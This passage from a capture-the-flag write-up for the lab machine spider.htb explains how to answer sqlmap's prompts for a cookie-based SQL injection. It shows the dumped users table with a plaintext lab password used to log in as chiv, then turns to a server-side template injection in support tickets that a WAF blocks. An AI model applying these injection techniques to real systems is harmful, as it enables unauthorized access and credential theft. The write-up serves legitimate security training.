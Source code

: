 Sqlmap will ask you a a couple of things when running the query. It is important to answer them correctly. You want sqlmap to process the custom injection marker, you don't want it to merge the cookies and you don't want it to url encode your cookie.
Later you don't want it to skip tests for other DBMses but you want it to include all tests for "MySQL" extending provided level and risk values.
After it found that your cookie is vulnerable you don't want it to test any other parameters.

We then receive next to a lot of other information the table `users` in the database `shop`:
```
+----+--------------------------------------+------------+-----------------+
| id | uuid                                 | name       | password        |
+----+--------------------------------------+------------+-----------------+
| 1  | 129f60ea-30cf-4065-afb9-6be45ad38b73 | chiv       | ch1VW4sHERE7331 |
| 2  | e4033c89-8c69-4863-82be-a986ba32a4ac | {{config}} | a               |
| 3  | 2c00e9a7-23a7-42e7-b5b6-f5e6e5a4327d | a          | a               |
| 4  | d324919a-57be-4c57-b932-744cd8ffc605 | chiv       | a               |
| 5  | 1cf95093-0ebe-4a9a-8fd8-9652ba81289a | Mitnick    | a               |
| 6  | d0afaf3c-89bb-4c3c-9056-4a0b7fd6b344 | a          | a               |
| 7  | 7e3e0cc3-96eb-487e-a862-e76720595264 | a          | a               |
| 8  | 9bb5e5ed-f225-439a-9b28-6f7b4a00d319 | chiv       | a               |
| 9  | b4043884-caec-4d83-a310-b0c62a148f1a | a          | a               |
| 10 | ff13f328-7336-495d-a060-24e243017cc0 | a          | a               |
| 11 | b1c1c658-2d9c-4253-9d5f-247d528d93a7 | a          | a               |
+----+--------------------------------------+------------+-----------------+
```
Which includes the users we added as well as one other user "chiv" with the password "ch1VW4sHERE7331" which we can use to login on http://spider.htb/login with the uuid "129f60ea-30cf-4065-afb9-6be45ad38b73" and the password "ch1VW4sHERE7331".

## User

In order to get a user shell let's have a look at what we have.

We can send support tickets from: http://spider.htb/a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal which was referenced at the admin panel after logging in as chiv.
We can then see those tickets at: http://spider.htb/view?check=support

This screams SSTI again. Unfortunately our tickets are being parsed by a WAF blocker:

![WAF_block](images/WAF_block.png)
